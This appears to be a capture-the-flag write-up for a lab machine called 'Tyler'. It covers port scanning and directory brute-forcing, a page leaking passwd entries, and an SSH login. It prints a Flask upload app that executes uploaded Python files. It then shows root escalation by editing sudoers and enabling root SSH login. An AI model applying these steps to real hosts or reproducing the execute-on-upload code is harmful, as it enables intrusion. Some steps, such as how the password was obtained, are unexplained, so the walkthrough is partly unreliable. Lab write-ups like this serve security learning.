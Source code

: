 # Tyler

## Recon

### nmap

```
# sh recon.sh 10.10.172.202
Host is up.
Starting Nmap 7.80 ( https://nmap.org )
[...]
Not shown: 992 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/7.3.16)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
5000/tcp open  http        Werkzeug httpd 1.0.0 (Python 3.6.8)
8080/tcp open  http        nginx 1.16.1
9999/tcp open  abyss?
Service Info: Host: TYLER

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.87 seconds
           Raw packets sent: 1103 (48.508KB) | Rcvd: 1022 (40.912KB)
```

### Gobuster

```
# gobuster dir -u 10.10.172.202 -w /usr/share/wordlists/rockyou.txt -x php,txt -t 100
===============================================================
/upload (Status: 301)
```

Looking at a regular gobuster, there's nothing useful. I uploaded php_reverse_shell.php but I couldn't find where it was uploaded.

### alert.txt

```
cat alert.txt 
Let's keep things interesting... X8JEETQmf3hkS65f
```

### dirsearch.py

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
./dirsearch.py -u http://tyler.thm/ -w /usr/share/wordlists/rockyou.txt -e html,txt
/betatest/
```

From here we find something called checkuser.php. Typing in tdurden replies with:

```
tdurden:x:1000:1000::Tyler Durden:/home/tdurden/bin/bash tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
```

Typing narrator gives us:

```
narrator:x:1002:1002::/home/narrator:/bin/bash narrator/:x:1002:1002::/home/narrator/:/bin/bash
```

## SSH

ssh into narrator

```
# ssh narrator@tyler.thm
narrator@tyler.thm's password: 
Last login: Thu Mar 26 10:52:23 2020 from cyberdyne
[narrator@tyler ~]$
```

### app.py

```
#!/usr/bin/python3

import os
from flask import Flask, flash, request, redirect, render_template
from werkzeug.utils import secure_filename
UPLOAD_FOLDER = './uploads'

app = Flask(__name__)
app.secret_key = "secret key"
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024


ALLOWED_EXTENSIONS = set(['txt', 'pdf', 'png', 'jpg', 'jpeg', 'gif', 'py'])

def allowed_file(filename):
	return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
	
@app.route('/')
def upload_form():
	return render_template('upload.html')

@app.route('/', methods=['POST'])
def upload_file():
	if request.method == 'POST':
        # check if the post request has the file part
		if 'file' not in request.files:
			flash('No file part')
			return redirect(request.url)
		file = request.files['file']
		if file.filename == '':
			flash('No file selected for uploading')
			return redirect(request.url)
		if file and allowed_file(file.filename):
			filename = secure_filename(file.filename)
			file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
			os.system('/usr/bin/python3 ' + os.path.join(app.config['UPLOAD_FOLDER'], filename))
			flash('File successfully uploaded')
			return redirect('/')
		else:
			flash('Allowed file types are txt, pdf, png, jpg, jpeg, gif, py')
			return redirect(request.url)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

### Privilege Escalation

```
[narrator@tyler ~]$ vim /etc/sudoers
```

From here, you add narrator to the sudoers file:

```
narrator	ALL=(ALL)	ALL
:wq!
```

After this, you type sudo -i to get to root.

## After root

```
vim /etc/ssh/sshd_config
```

Go to `PermitRootLogin` and change the parameter from `no` to `yes`.

```
:wq! # Save your work
```

